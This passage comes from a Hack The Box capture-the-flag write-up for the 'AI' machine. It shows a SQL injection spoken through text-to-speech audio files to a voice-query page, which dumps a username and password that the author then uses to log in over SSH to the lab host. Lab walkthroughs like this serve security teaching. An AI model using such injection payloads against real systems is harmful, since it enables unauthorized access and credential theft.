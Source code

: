 ```console
2020/02/07 15:48:32 Finished
===============================================================
```

As is possible to see above, ```intelligence.php``` was discovered, once that page is accessed, is found a guide on how to write some queries to the AI:

{% include figure image_path="/assets/images/htb/ai/2.1-rce-2.png" %}

After a LOT of try-error (literally, I was never able to go beyond this if it wasn't for the help of [Interep](https://www.hackthebox.eu/profile/10423) of both queries and different TTS (being I'm not a native english speaker and neither I have a microphone), was used in the end [Text 2 Speech](https://www.text2speech.org/):

{% include figure image_path="/assets/images/htb/ai/t2s.png" %}

getting as final SQL Injection the next:

```
User:
Open single quote union select, username from users Comment Database
Password:
Open single quote union select, password from users Comment Database
```

Once it's respective .wav files generate by the TTS mentioned above were uploaded, the following were the results:

{% include figure image_path="/assets/images/htb/ai/command-ok-1.png" %}

{% include figure image_path="/assets/images/htb/ai/command-ok-2.png" %}


Then, was tried to login via ssh with the credentials:

```
user: alexa
passwd: H,Sq9t6}a<)?q93_
```

Getting a success:

```console
root@kali:~/Documents/HTB/boxes/medium/linux/ai# ssh alexa@10.10.10.163
alexa@10.10.10.163's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 5.3.7-050307-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Feb  7 20:27:47 UTC 2020

  System load:  0.14               Processes:           162
  Usage of /:   28.0% of 19.56GB   Users logged in:     1
  Memory usage: 27%                IP address for eth0: 10.10.10.163
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

63 packages can be updated.
15 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


```